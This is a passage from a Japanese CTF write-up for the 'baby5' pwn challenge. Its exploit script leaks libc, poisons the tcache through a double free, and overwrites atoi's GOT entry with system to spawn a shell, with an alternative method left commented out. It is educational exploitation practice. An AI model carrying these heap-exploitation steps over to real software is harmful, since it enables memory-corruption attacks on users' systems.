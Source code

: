 ```python
    s = process("./baby5")

    add(s, 0x500) # idx = 0 -> to Unsorted bin
    add(s, 0x20)  # idx = 1 -> to tcache
    delete(s, 0)
    libc_base = u64(show(s, 0).ljust(8, b"\x00")) - arena_top_libc
    print(hex(libc_base))
    system_addr = libc_base + system_libc

    # tcache poisoning
    delete(s, 1)
    delete(s, 1)
    add(s, 0x20, p64(atoi_got))
    add(s, 0x20)
    add(s, 0x20, p64(system_addr))
    _select(s, b"/bin/sh")

    """
    --- https://hackmd.io/@Xornet/ryyrIQmTL ---

    idx = 0
    add(s, 0x20)
    delete(s, idx)
    edit(s, 0, 0x20, p64(ptr_list))
    add(s, 0x20)
    add(s, 0x20, p64(atoi_got))
    libcbase = u64(show(s, 0).ljust(8, b"\x00")) - atoi_libc
    print(hex(libcbase))

    system_addr = libcbase + system_libc
    edit(s, 0, 0x20, p64(system_addr))
    _select(s, b"/bin/sh")
    """

    s.interactive()

```

## Flag

ローカルでシェル取っただけなのでないです

## 参考Writeup

* [ptr-yudaiさんのwriteup](https://bitbucket.org/ptr-yudai/writeups/src/master/2019/Security_Fest_2019/Baby5/)
* [Jsecさんのwriteup](https://blog.naver.com/yjw_sz/221545467240)